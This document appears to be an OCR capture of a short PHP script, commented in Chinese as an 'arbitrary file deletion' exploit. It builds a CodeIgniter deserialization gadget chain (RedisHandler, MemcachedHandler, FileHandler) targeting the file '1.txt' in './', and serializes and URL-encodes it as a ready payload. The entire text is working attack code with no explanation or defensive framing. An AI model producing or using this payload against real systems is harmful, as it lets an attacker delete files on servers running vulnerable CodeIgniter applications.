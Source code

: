 ```php
//任意文件删除  
<?php  
namespace CodeIgniter\Cache\Handlers;  
use CodeIgniter\Session\Handlers\BaseHandler;  
use CodeIgniter\Session\Handlers\MemcachedHandler;  
class RedisHandler extends BaseHandler  
{  
    public $redis;  
    public function __construct()  
    {  
        $this->redis =new MemcachedHandler();  
    }  
}  

namespace CodeIgniter\Session\Handlers;  
use CodeIgniter\Session\Handlers\BaseHandler;  
use CodeIgniter\Cache\Handlers\FileHandler;  
class MemcachedHandler extends BaseHandler  
{  
    public $memcached ;  
    public $lockKey ;  

    public function __construct()  
    {  
        $this->memcached=new FileHandler();  
        $this->lockKey = "1.txt"; //文件名  
    }  
}  

namespace CodeIgniter\Session\Handlers;  
abstract class BaseHandler  
{  
}  

namespace CodeIgniter\Cache\Handlers;  
use CodeIgniter\Session\Handlers\BaseHandler;  
class FileHandler extends BaseHandler  
{  
    public $path;  
    public function __construct()  
    {  
        $this->path="./"; //路径  
    }  

}  

use CodeIgniter\Cache\Handlers\RedisHandler;  
$str =  serialize(new RedisHandler());  
$newStr = str\_replace('\\', '\\\\', $str);  
echo urlencode($newStr)."\n";
```

END
---
